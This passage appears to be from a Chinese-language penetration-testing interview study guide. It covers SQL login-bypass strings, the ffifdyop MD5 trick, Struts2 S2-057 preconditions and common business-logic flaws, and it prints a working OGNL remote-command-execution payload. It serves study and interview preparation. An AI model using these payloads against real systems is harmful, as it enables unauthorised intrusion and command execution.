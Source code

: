 ### 2.数据库的万能密码都有那些？

（1）`' or 1=1 --+`

（2）`ffifdyop` 的MD5加密结果是 `276f722736c95d99e921722cf9ed621c`

经过MySQL编码后会变成`'or'6xxx`,使SQL恒成立,相当于万能密码,可以绕过md5()函数的加密

## 三.其他

### 1.描述下s2-057漏洞（重点）

当web应用中使用了`Struts2` Convention插件时，`alwaysSelectFullNamespace`属性值是会开启的。

开启alwaysSelectFullNamespace属性

在`org.apache.struts2.dispatcher.mapper.DefaultActionMapper#parseNameAndNamespace`方法中解析`uri`时，

如果alwaysSelectFullNamespace属性值为true，会进入到能执行命令的分支，就可以利用漏洞远程执行命令

### 2.s2-057漏洞存在需要有两个必要条件：（重点）

1. alwaysSelectFullNamespace属性值为true
2.  2..存在缺省`namespace`的package，或namespace使用了通配符（如“`/*`”）

### 3.s2-057流量关键字

`Ognl`

`Poc`（exp）：

```bash
${(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#ct=#request['struts.valueStack'].context).(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ou.getExcludedPackageNames().clear()).(#ou.getExcludedClasses().clear()).(#ct.setMemberAccess(#dm)).(#a=@java.lang.Runtime@getRuntime().exec('id')).(@org.apache.commons.io.IOUtils@toString(#a.getInputStream()))}
```



## 四.业务逻辑漏洞

### 1.挖洞的过程中遇到比较多的漏洞是什么？

文件上传漏洞，特别是头像上传的地方比较容易有文件上传漏洞

Sql注入漏洞，头注入有时候会遇到

再有就是很大量的逻辑漏洞啦，比如越权，支付逻辑漏洞，等等

### 2.说说你曾经挖出来的逻辑漏洞（重点）

（1）比较多是只做客户端验证

使用BP等工具进行抓包篡改数据，便很容易绕过客户端控件的检查，进行恶意数据的输入。
